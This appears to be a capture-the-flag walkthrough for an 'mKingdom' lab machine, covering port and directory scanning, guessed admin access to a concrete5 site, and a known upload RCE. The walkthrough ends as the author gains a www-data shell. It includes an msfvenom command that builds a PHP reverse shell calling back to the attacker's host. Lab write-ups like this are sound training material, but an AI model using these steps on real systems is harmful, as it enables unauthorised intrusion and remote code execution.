# 🍄 mKingdom

```
nmap -A <IP>
```

<figure><figcaption></figcaption></figure>


```
gobuster dir -u http://<IP>:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><figcaption></figcaption></figure>

```
http://<IP>:85/app
```

<figure><figcaption></figcaption></figure>

```
http://<IP>:85/app/castle/
```

<figure><figcaption></figcaption></figure>

This is a concrete5 website. We can get the version with [Wappalyzer](https://www.wappalyzer.com/) :&#x20;

<figure><figcaption></figcaption></figure>

We can see that we get a login page : /app/castle/index.php/login

<figure><figcaption></figcaption></figure>

With a lot of tries we can get the access to the admin panel :&#x20;

<figure><figcaption></figcaption></figure>

With some research we get this RCE with the version : [https://vulners.com/hackerone/H1:768322](https://vulners.com/hackerone/H1:768322)

We can test the RCE like this :&#x20;

Add php file to allowed file types :

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Create a reverse php file :&#x20;

```
msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=1234 > shell.php
```

<figure><figcaption></figcaption></figure>

And you can test the RCE on the FileManager :&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

If you want a cool extension to get quickly some reverse shell or others payloads this is a great tool : [https://addons.mozilla.org/fr/firefox/addon/hacktools/](https://addons.mozilla.org/fr/firefox/addon/hacktools/)

We are www-data. So we search for user.txt and root.txt files.&#x20;
